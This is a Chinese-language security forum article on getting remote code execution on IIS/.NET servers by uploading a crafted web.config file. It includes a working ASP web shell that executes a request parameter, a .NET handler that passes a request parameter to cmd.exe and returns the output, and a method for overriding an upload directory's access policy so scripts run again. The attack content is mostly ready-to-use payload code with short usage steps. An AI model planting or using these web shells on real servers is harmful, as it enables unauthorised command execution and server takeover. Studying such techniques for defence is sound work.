




# .NET 上传 web.config 文件实现 RCE 思路 - 先知社区

.NET 上传 web.config 文件实现 RCE 思路

- - -

# 0x01 作为 ASP 脚本运行

当某些运行.NET 环境的 IIS 容器也支持托管 ASP 脚本时，有的场景可能会遇到无法直接上传扩展名为 .ASP 的文件，在这种情况下可以通过上传定制化的 web.config 文件来运行经典 ASP 脚本代码。0x01 作为 ASP 脚本运行

```plain
<system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
<!--
<%
Response.write("-"&"->")
Response.write(1+2)
on error resume next
if execute(request("dotnet")) <>"" then execute(request("dotnet"))
Response.write("<!-"&"-")
%>
-->
```

访问 /web.config?dotnet=response.write(now())，页面返回当前日期信息，证明脚本运行成功。如下图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123111042-fe4a85cc-b99c-1.png)

# 0x02 作为.NETT 脚本运行

当 Internet Information Service 服务器不支持 ASP 脚本，仅支持.NET 运行环境时，有些漏洞场景可能会遇到无法上传 ashx、aspx、asmx、soap 等扩展名时，可以尝试通过上传定制化的 web.config 文件来运行.NET 代码

```plain
<system.web>
    <compilation defaultLanguage="cs">
      <buildProviders>
        <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />
      </buildProviders>
    </compilation>
    <httpHandlers>
      <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
    </httpHandlers>
  </system.web>
  if (flag){
   System.Diagnostics.Process process = new System.Diagnostics.Process();
process.StartInfo.FileName = "cmd.exe";
  string str = httpContext.Request["c"];
  process.StartInfo.Arguments = "/c " + str;
  process.StartInfo.RedirectStandardOutput = true;
  process.StartInfo.RedirectStandardError = true;
  process.StartInfo.UseShellExecute = false;
  process.Start();
  string str2 = process.StandardOutput.ReadToEnd();
  httpContext.Response.Write("<pre>" + str2 + "</pre>");
  httpContext.Response.Flush();
  httpContext.Response.End();
}
```

访问 /web.config，传入参数 c=tasklist，页面返回当前所有的系统进程，脚本运行成功。如下图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123111054-053ffd76-b99d-1.png)

# 0x03 绕过策略限制

web.config 文件可用于配置 IIS 服务器的运行行为，实战中某些上传目录被管理员设定为禁止运行脚本，并且只提供读取操作，不具备修改和写入权限，比如对 uploads 目录下的 web.config 文件配置如下清单

```plain
<system.webServer>
    <handlers accessPolicy="Read,Write">
    </handlers>
</system.webServer>
```

请求/uploads/Shell2asmx.soap 如下图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123111101-0988098c-b99d-1.png)

但此时修改 accessPolicy 策略，添加写入、执行、运行脚本权限。即 accessPolicy="Read,Write,Execute,Script"，再向 uploads 目录下上传新配置的这个 web.config，如下图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123111107-0cf90fe4-b99d-1.png)
